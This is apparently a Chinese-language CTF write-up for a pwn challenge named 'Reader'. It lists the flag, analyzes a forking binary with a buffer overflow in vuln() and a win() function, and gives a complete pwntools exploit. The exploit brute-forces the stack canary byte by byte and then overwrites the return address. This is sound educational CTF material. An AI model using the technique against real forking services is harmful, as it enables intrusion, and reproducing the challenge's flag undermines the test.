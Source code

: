 # pwn - Reader Writeup

---  
![pic](pic/reader.png)

## FLAG：
`CYBORG{u_hulk_sm4sh3d_th4t_c4n4ry_l1k3_a_ch4mp!!!`

## 觀察：
- 執行檔案：不斷詢問`Enter some data: `，在輸入任意字串後印出`Your data was read. ...`等訊息。
- checksec：canary found
- IDA分析：
	- `main()`：不斷fork出child
	- child：執行`vuln()`
	- `vuln()`：詢問`Enter some data: `、接收 input 以及印出`Your data was read. ...`等訊息。
	- `win()`：印出flag.txt
	- `main()` ![pic](pic/main.png)
	- `vuln()` ![pic](vuln.png)
	- `win()` ![pic](pic/win.png) ![pic](pic/win_asm.png)

## 思路：
- `vuln()`輸入字串的地方有bof漏洞，且有個`win()`作為跳轉目標，可以用 **ret2win** 解題。
- 由於所有child的canary都一樣，且child發生stack smash時不影響parent，parent可以繼續fork出child執行程式，可以用 **Bruteforcing forks / threads** 來找出正確的canary。

## 目標：
- 找出stack canary並在覆蓋return address時正確注入。
- 找出`win()`的位址並跳轉。(optional) 注意`$rsp`對齊16bytes的問題。

## 步驟：
1. canary共8個byte，第一個byte會是`'\x00'`。
2. 在canary尾端添加1個可能的byte，直到沒有發生stack smash，表示猜測正確。
3. 猜測canary直到8個byte都解出。
4. 將canary與`win()`的位址注入。獲得FLAG。

> [!NOTE] `$rsp` alignment
> `$rip`跳到`win()`的當下，`$rsp`會對齊16 byte，即`$rsp`的結尾是0x...0(而非0x...8)。接著若在`win()`中執行`push`指令(通常是`push rbp`)會使`$rsp`的值減少8而沒有對齊16 byte，進而造成一些與`$rsp`有關的指令無法執行，產生`SIGBUS` signal 終止程式。  
> - 因此在`$rip`跳到`win()`時，我刻意跳到`<win+5>`的位置避免這個問題。
## Exploit：  

```python
#!/usr/bin/python3.8
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote('0.cloud.chals.io', 10677)
#r = process("./reader")
canary = b'\x00'
byte = [ long_to_bytes(x) for x in range(1, 0x100) ]
  
r.recvuntil(b"Enter some data: ")
  
while len(canary) != 8:
    for b in byte:
        candidate = canary + b
        #print(f"trying: {candidate = }")
        payload = b'A'*72 + candidate
        r.send(payload)
        rst = r.recvuntil(b'Enter some data: ').decode()
        if rst.find('***') == -1:        # no stack smashing
            canary = candidate
            print(f'current {canary = }')
            break
  
payload = b'A'*72 + canary + b'B'*8 + p64(0x40127B)
r.send(payload)
r.interactive()
```

![pic](pic/flag.png)